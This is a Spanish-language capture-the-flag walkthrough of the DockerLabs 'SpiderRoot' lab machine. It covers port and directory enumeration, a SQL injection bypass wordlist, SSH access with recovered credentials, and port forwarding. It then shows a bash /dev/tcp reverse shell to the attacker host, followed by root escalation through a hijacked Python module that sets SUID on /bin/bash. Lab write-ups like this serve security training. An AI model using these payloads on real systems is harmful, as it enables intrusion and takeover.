


## DESCARGAR LA MÁQUINA Y MONTARLA

Nos dirigimos a la página `https://dockerlabs.es/` y allí buscamos la máquina `SpiderRoot` y vamos al enlace para descargarla:

```bash
https://dockerlabs.es/
https://mega.nz/file/6N0EyKqZ#7GKnF_GxBkij0pPofVhA6p-lRrdfscuJBoJxR4qLO6o
```

1- hacemos un unzip del archibo descargado:
  ```bash
  unzip spiderport.zip
  ```
2- entramos en la carpeta que nos ha creado
  ```bash
   cd spiderport
  ```

3- montamos la máquina

  ```bash
  sudo bash auto_deploy.sh spiderport.tar
  ```


## FASE DE ENUMERACIÓN

Vamos a escanear los puertos para ver cuales tienes abiertos, que servicios corren por ellos y si tinen alguna vulnerabilidad:

```bash
 sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -v --open 172.17.0.2 -oN puertosYservicios
```


Vemos dos puertos abiertos:

-22 ssh con versión no vulnerable
-80 http

Antes de ir a la web vamos a lanzar un whatweb :

```bash
whatweb 172.17.0.2 | tee whatweb
```


Salvo que corre un apache poco más, visitamos la página web


Revisando el codigo fuente no vemos nada extraño así que vamos a hacer un fuzz:
```bash
feroxbuster --url "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,html,zip, ,log,js,cgi,js --scan-dir-listings
```

nos muestra algunas páginas:
```bash
200      GET       99l      256w     2793c http://172.17.0.2/
200      GET       99l      256w     2793c http://172.17.0.2/index.php
301      GET        9l       28w      308c http://172.17.0.2/pages => http://172.17.0.2/pages/
200      GET       32l      117w     1201c http://172.17.0.2/pages/multiverse.php
200      GET       27l       94w      884c http://172.17.0.2/pages/contact.php
200      GET       86l      175w     2178c http://172.17.0.2/pages/heroes.php
200      GET      139l      981w    74877c http://172.17.0.2/pages/images/peter.png
200      GET      193l      725w    72479c http://172.17.0.2/pages/images/gwen.png
200      GET     3677l    20675w  1686413c http://172.17.0.2/pages/images/miles.jpg
301      GET        9l       28w      315c http://172.17.0.2/pages/images => http://172.17.0.2/pages/images/
200      GET       19l       91w     1544c http://172.17.0.2/pages/
```


nos vamos a `http://172.17.0.2/pages/multiverse.php` que resuelve igual que `http://172.17.0.2/?page=multiverse` y tenemos un panel, intentamos una inyección basica
de sqli `' or  1=1-- -`


y nos aparece esto:


Así pues vamos a pasar la petición por burpsuite a ver que hay, vemos un comentario interesante:


De momento vamos a lanzar un ataque de diccionario con querys sql, para ver si podemos evadir el WAF, uso este minidiccionario:
```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```


Pues vemos que ha funcionado, nos vamos a la página e introducimos la query:





ya tenemos unos user y unos pass para intentar conectarnos por SSH, al ser pocos no utilizo hydra, directamente ensayo y error:

```bash
ssh peter@172.17.0.2
```

y aquí lo tenemos `peter:sp1der`


## ESCALADA DE PRIVILEGIOS

Empezamos mirando si pertenecemos a algún grupo privilegiado `id` , después si tenemos algún privilegio sudo `sudo -l`, si hay algún bit SUID `find / -perm -4000 2>/dev/null`


No encontramos nada, vamosa mirar puertos internos abiertos `ss -tulnp`

```
Netid                   State                    Recv-Q                   Send-Q                                      Local Address:Port                                       Peer Address:Port                   Process                   
tcp                     LISTEN                   0                        511                                               0.0.0.0:80                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        128                                               0.0.0.0:22                                              0.0.0.0:*                                                
tcp                     LISTEN                   0                        511                                             127.0.0.1:8080                                            0.0.0.0:*                                                
tcp                     LISTEN                   0                        128                                                  [::]:22                                                 [::]:*
```


Tenemos el puerto 8080 pero solo accesible desde la máquina victima, de momento vamos a hacer un curl para ver más o menos de que va la cosa:
```bash
curl 127.0.0.1:8080
```

Vemos algo muy interesante:


tenemos que hacer port forwarding para llegar a ese puerto abierto como sea, dado que tiene ssh no voy a usar chisel, me voy a mi máquina atacante:


```bash
ssh -L 9000:127.0.0.1:8080 peter@172.17.0.2
```

explico el comando:
ssh-->protocolo
-L --> port forwarding
9000:127.0.0.1:8080 --> mi puerto 9000 es el 8080 del localhost (victima)
peter@172.17.0.2 --> como quien nos conectamos por ssh
puse el puerto 9000 en vez del mismo de la máquina (8080) por si tengo que usar burp suite que utiliza ese puerto y crea conflicto


Me voy al navegador:


En el buscador puse localhost que es lo mismo que  127.0.0.1  eso si, acordaros de poner el puerto.


Ahora hay que mandarnos una reverse shell:


nos ponemos en escucha en nuestra máquina atcante por el puerto 4444
```
sudo nc -lvnp 4444
```
metemos la revshell en el buscador:
```
bash -i >& /dev/tcp/172.17.0.1/4444 0>&1
```

y no nos lo ejecuta porque necesitamos poner bash -c "el comando"

```
bash -c  "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"
```

ahora si


Hacemos tratamiento de la TTY


```bash
export TERM=xterm
export SHELL=bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 51 columns 237
```


Una vez dentro como usuario `www-data` vamos a comprobar los grupos a los que pertenecemos y si tenemos privilegios sudo
```bash
id
sudo -l
```


Vemos dos cosas interesantes:


1- pertenecemos al grupo `spiderlab`

2- podemos ejecutar con privilegios sudo (ALL) NOPASSWD: /usr/bin/python3 /opt/spidy.py


Comprobamos los permisos del script y de la carpeta que lo aloja:
```
ls -la /opt/spidy.py
ls -la /opt
```

el script es propietario root pero atención la carpeta donde se aloja tiene estos permisos:
```
Detalle de los permisos: drwxrwxr-x

d → indica que es un directorio.

rwx → permisos del propietario (root): puede leer, escribir y ejecutar.

rwx → permisos del grupo (spiderlab): puede leer, escribir y ejecutar.

r-x → permisos otros (everyone else): puede leer y ejecutar, pero no escribir.
```




vamos a ver el script con `cat /opt/spidy.py`


Es un script en python y se me ocurre hacer un Path Hijacking y Library Hijacking

1- cambiamos el PATH `export PATH=$(pwd):$PATH`
2- el path lee primero en el directorio actual y creo un script con el nombre json.py que contenga:

```
import os

os.system("chmod u+s /bin/bash")
```

3- ejecuto el script `sudo /usr/bin/python3 /opt/spidy.py`

4- compruebo privilegios de la /bin/bash y veo que tiene el bit suid

5- ejecuto `/bin/bash -p` y me convierto en root


